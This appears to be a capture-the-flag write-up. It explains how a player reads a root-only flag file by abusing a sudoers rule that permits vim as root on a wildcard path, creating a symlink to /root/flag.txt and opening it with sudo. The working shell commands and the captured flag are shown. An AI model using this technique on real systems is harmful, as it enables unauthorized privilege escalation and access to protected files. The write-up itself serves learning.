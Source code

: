 # Description

All you need to do is read the flag!

`ssh ctf@138.247.13.103`

# Solution

Wandering around on the server, I remark the file `sudo-1.8.14.tar.gz`. Ok, so `sudo` will probably help us. Let's check `/etc/sudoers`:

`ctf ALL=(root) NOPASSWD: /usr/bin/vim /home/ctf/*/*/HackMe2.txt`

We can read a file name `HackMe2.txt` as root (without password needed) if it's located in `/home/ctf/*/*`. Remember, our objective is to read `/root/flag.txt`. The idea it to create this `HackMe2.txt` at the right place and link it to `/root/flag.txt`. In other word:

```
ctf@d2db6dbd656b:~$ mkdir -p a/b
ctf@d2db6dbd656b:~$ cd a/b
ctf@d2db6dbd656b:~/a/b$ ln -s /root/flag.txt HackMe2.txt
ctf@d2db6dbd656b:~/a/b$ sudo /usr/bin/vim /home/ctf/a/b/HackMe2.txt
```

The flag is `MCA{ohghov1ieli7Eo2}`.
